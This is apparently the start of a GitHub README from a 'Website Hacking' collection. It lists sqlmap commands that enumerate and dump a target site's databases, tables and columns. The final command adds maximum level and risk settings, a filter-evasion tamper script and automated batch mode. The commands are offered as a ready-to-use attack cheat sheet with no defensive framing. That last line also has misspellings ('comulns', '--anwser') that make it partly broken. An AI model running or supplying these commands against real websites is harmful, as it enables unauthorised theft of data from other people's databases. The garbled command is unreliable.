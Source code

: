 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' -D name.db --tables

sqlmap -u 'Website' -D name.db -T name.tables --columns

sqlmap -u 'Website' -D name.db -T name.tables -C name.columns

sqlmap -u 'Website' -D name.db -T name.tables -C name.comulns --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>

